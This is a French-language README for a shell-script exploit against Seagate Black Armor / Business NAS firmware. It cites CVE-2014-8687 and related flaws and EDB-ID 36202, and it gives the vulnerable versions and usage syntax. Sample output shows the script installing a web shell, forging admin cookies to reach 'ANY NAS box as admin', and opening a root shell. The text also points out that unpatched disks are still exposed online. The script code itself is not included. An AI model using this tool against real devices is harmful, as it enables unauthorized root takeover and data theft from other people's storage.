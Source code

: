 # Seagate Black Armor Raper

# DESCRIPTION:
 - Ce script execute exploite une vulnerabilité des disque Seagate Black Armor d'une certaine version.
 - Il demeure encore des disque ouvert à internet et qui ne sont toujours pas mis-à-jour.

# EXPLOIT/VULNERABILITE:
 - EDB-ID:36202		Seagate Business NAS 2014.00319 - Remote Code Execution
 - CVE-2014-8687		Arbitrary Code Execution
 - CVE-2014-8684: 	timing attacks and object injection.
 - CVE-2014-8686: 	a fall-back to the _xor_encode() method of session encryption.

# VERSIONS VULNERABLES:
 - 2014.00319
 - 2013.60311

# UTILISATION:
 - sbar.sh IP PORT
 - Exemple:
 - sbar.sh 127.45.63.89 [7009]


   - Establishing session with 127.45.63.89 ...
   - Configuring administrative access ...
   - Installing web shell (takes a while) ...
   - Extracting id and hostname ...

   - Seagape v1.0 -- Interactive Seagate NAS Webshell
   -   - OJ Reeves (@TheColonial) - https://beyondbinary.io/
   -   - https://beyondbinary.io/bbsec/001

   - version           - Print the current firmware version to screen.
   - dumpcookie        - Print the current cookie to screen.
   - admincookie <ua>  - Create an admin login cookie (ua == user agent string).
   -                     Add to your browser and access ANY NAS box as admin.
   - help              - Show this help.
   - exit / quit       - Run for the hills.
   - <anything else>   - Execute the command on the server.

   - Seagape (root@WKNAS)>




# EXPLOITATION:
 - Generation/creation de cookie admin et authentificagtion à l'interface d'administration en tant qu'administrateur.
 - Ouverture d'un shell root sur le disque avec accès à la racine du disque

# ATTENTION:
 - N'utiliser que sur ses propres infrastructures
 - Laisse des traces et des fichiers.

# LIENS EXTERNES:
 - https://nvd.nist.gov/vuln/detail/CVE-2014-8687
 - https://beyondbinary.io/articles/seagate-nas-rce/
 - https://www.exploit-db.com/exploits/36202


